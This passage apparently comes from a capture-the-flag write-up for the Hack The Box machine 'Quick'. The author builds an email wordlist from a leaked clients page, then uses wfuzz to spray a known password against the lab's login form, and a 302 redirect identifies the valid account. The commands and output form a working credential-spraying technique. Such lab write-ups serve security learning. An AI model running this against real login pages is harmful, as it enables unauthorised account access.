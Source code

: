 Checking out http://10.10.10.186:9001/clients.php. It leaks company name and country.

With this information a simple wordlist can be created:
```bash
root@darkness:~# cat mails.txt
tim@qconsulting.co.uk
roy@darkwing.us
elisa@wink.co.uk
james@lazycoop.cn
```

Using wfuzz, all emails with the found password can be checked.
```bash
root@darkness:~# wfuzz -X POST -u quick.htb:9001/login.php -d 'email=FUZZ&password=Quick4cc3$$' -w mails.txt
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://quick.htb:9001/login.php
Total requests: 4

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000004:   200        0 L      2 W      80 Ch       "james@lazycoop.cn"
000000001:   200        0 L      2 W      80 Ch       "tim@qconsulting.co.uk"
000000002:   200        0 L      2 W      80 Ch       "roy@darkwing.us"
000000003:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"
Total time: 0.175652
Processed Requests: 4
Filtered Requests: 0
Requests/sec.: 22.77220
```

We get a 302 redirect for `elisa@wink.co.uk`, which probably means that our login was successful there.
